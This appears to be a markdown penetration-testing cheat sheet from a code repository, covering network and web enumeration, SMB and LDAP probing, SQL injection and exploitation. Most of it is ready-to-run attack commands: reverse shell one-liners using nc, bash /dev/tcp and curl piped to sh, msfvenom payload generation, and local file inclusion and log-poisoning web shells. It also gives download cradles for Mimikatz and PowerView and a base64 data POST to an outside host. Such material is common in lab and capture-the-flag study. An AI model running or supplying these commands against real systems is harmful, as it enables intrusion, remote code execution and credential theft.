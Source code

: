 WORK IN PROGRESS

# Basic Enumeration

#### NMAP check for live hosts
- `sudo nmap -sn 10.0.0.0/24 -oN discovery.nmap`

#### sort
- `cat discovery.nmap | grep "for" | cut -d " " -f 5 > ips.txt` 

#### NMAP scan
- `sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open`

#### NMAP Scan
- `sudo nmap -sC -sV -oA testbox 10.0.0.1`

#### Other type scans
- `nc -nv -u -z -w 1 192.168.1.44 1300-1500`

### Web Directory Enumeration
#### gobuster
- `gobuster dir -u http://10.0.0.1 -w /usr/share/wordlists/dirb/big.txt`

#### wfuzz
######  directory    
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hc 404 -u 10.0.0.1/FUZZ`  
###### filename + extension  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ%FUZ2Z`  
###### deeper enumeration  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ/FU2Z%FUZ3Z`

#### FFUF
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ` 	Directory Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ` 	Extension Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/dir/FUZZ.php` 	Page Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v` 	Recursive Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u https://FUZZ.domain.com/` 	Sub-domain Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://domain.htb:PORT/ -H 'Host: FUZZ.domain.com' -fs xxx` 	VHost Fuzzing
- `ffuf -w wordlist.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php?FUZZ=key -fs xxx` 	Parameter Fuzzing - GET
- `ffuf -w wordlist.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx` 	Parameter Fuzzing - POST
- `ffuf -w ids.txt:FUZZ -u http://sub.domain.com:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`

### SMB Enumeration

- `enum4linux -a 10.0.0.1`
- `smbclient -U "user" -L 10.0.0.1`
- `showmount -e 10.0.0.1`
- `sudo mount -t cifs //10.0.0.1/share$ smb/ -o user="user"`
- `smbclient \\\\10.0.0.1\\sharename -U guest`

### LDAP Enumeration

- `jxplorer`

### SQLMAP 
- if there is a parameter then one could use sqlmap
- e.g http://10.0.0.1/?id=2
- use burp to get the request page and save it as req.txt
- then run
- `sqlmap -r req.txt --tamper=space2comment --dump-all --dbms mysql`

- try `' or 1=1--` in the username and password field
- enumerate how many columns there are
- `user='UNION SELECT NULL,'test',NULL,NULL--&password=admin`

### msfvenom and msfconsole reverse shell

- `msfvenom -p php/meterpreter_reverse_tcp lhost=10.0.0.1 lport=9998 -o moon.php`

###### msfconsole
- `use exploit/multi/handler`
- `set payload php/meterpreter_reverse_tcp`
- `set LHOST 10.0.0.1`
- `set LPORT 9998`
- `run`

###### Reverse shells

- `mkfifo /tmp/boop;nc IP PORT 0</tmp/boop | /bin/sh -i 2>&1 | tee /tmp/boop`
- `curl http://IP:port/shell.sh | sh`
- `exec("/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'");`
- `/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'`

- `python3 -c 'import pty; pty.spawn("/bin/bash")'`

###### Web enumeration

LFI
- `http://10.0.0.1/?page=index.php`
- `http://10.0.0.1/?page=../../../etc/passwd`
- `http://10.0.0.1/?page=php://filter/convert.base64-encode/resource=index.php`

Log injection 
- change user agent
- `<?php system($_GET['cmd']); ?>`
- `http://10.0.0.1/?page=../../../var/apache2/access.log?cmd=wget%20http://IP:PORT/shell.php`
- `expect://id`
- `curl -s -X POST --data "<?php system('id'); ?>" "http://10.0.0.1:80/index.php?language=php://input"`

###### Download files

- `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`
- `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`
- `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`
- `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`
- `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`
- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`
- `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
- `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`
- `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`
- `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`
- `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`

###### Basic windows Enumeration

Check Windows Patches
- powershell.exe -command Get-HotFix

Display all AD Users and associated info
-  powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview.ps1');Get-User
-  powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview.ps1');Get-UserProperties -Properties name,memberof,description,info
-  wmic useraccount get/ALL /format:csv


